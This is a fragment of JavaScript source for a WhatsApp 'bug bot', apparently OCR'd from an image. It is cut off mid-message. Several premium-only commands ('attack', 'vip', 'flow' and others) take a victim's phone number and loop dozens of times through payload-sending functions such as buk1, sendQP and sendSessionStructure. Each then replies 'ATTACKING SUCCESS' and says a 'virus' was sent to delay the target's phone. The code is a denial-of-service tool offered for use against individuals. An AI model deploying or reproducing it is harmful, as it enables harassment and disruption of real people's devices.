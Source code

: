 break

case 'stuk': case 'flow': 
if (!isPremium) return reply(mess.only.premium)
if (!q) return reply(`Example: ${prefix + command} 263×××`)
target = q.replace(/[^0-9]/g,'')+"@s.whatsapp.net"
reply(bugres)
for (let i = 0; i < 50; i++) {
await buk1(zyn, target, "p", 1020000, ptcp = true);
sendQP(target, wanted)
await sendQP(target, wanted)
await beta2(zyn, target, wanted)
await sendSessionStructure(target, wanted)
await beta1(zyn, target, wanted)
}
reply(`『 𝐀𝐓𝐓𝐀𝐂𝐊𝐈𝐍𝐆 𝐒𝐔𝐂𝐂𝐄𝐒𝐒 』

𝐓𝐀𝐑𝐆𝐄𝐓 : ${target}
𝐒𝐓𝐀𝐓𝐔𝐒 : 𝗦𝘂𝗰𝗰𝗲𝘀𝘀𝗳𝘂𝗹𝗹𝘆

    𝐍𝐎𝐓𝐄
> Virus Sudah Terkirim, Jika Target C2 Maka Target Mengalami Delay Maker`)
break

case 'fuck': case 'tzy': 
if (!isPremium) return reply(mess.only.premium)
if (!q) return reply(`Example: ${prefix + command} 263×××`)
target = q.replace(/[^0-9]/g,'')+"@s.whatsapp.net"
reply(bugres)
for (let i = 0; i < 50; i++) {
await buk1(zyn, target, "p", 1020000, ptcp = true);
sendQP(target, wanted)
await sendQP(target, wanted)
await beta2(zyn, target, wanted)
await sendSessionStructure(target, wanted)
await beta1(zyn, target, wanted)
}
reply(`『 𝐀𝐓𝐓𝐀𝐂𝐊𝐈𝐍𝐆 𝐒𝐔𝐂𝐂𝐄𝐒𝐒 』

𝐓𝐀𝐑𝐆𝐄𝐓 : ${target}
𝐒𝐓𝐀𝐓𝐔𝐒 : 𝗦𝘂𝗰𝗰𝗲𝘀𝘀𝗳𝘂𝗹𝗹𝘆

    𝐍𝐎𝐓𝐄
> Virus Sudah Terkirim, Jika Target C2 Maka Target Mengalami Delay Maker`)
break

case 'vip': case 'attack': case 'andro': 
if (!isPremium) return reply(mess.only.premium)
if (!q) return reply(`Example: ${prefix + command} 263×××`)
target = q.replace(/[^0-9]/g,'')+"@s.whatsapp.net"
reply(bugres)
for (let i = 0; i < 30; i++) {
await buk1(zyn, target, "p", 1020000, ptcp = true);
sendQP(target, wanted)
await sendQP(target, wanted)
await beta2(zyn, target, wanted)
await sendSessionStructure(target, wanted)
await beta1(zyn, target, wanted)
}
reply(`『 𝐀𝐓𝐓𝐀𝐂𝐊𝐈𝐍𝐆 𝐒𝐔𝐂𝐂𝐄𝐒𝐒 』
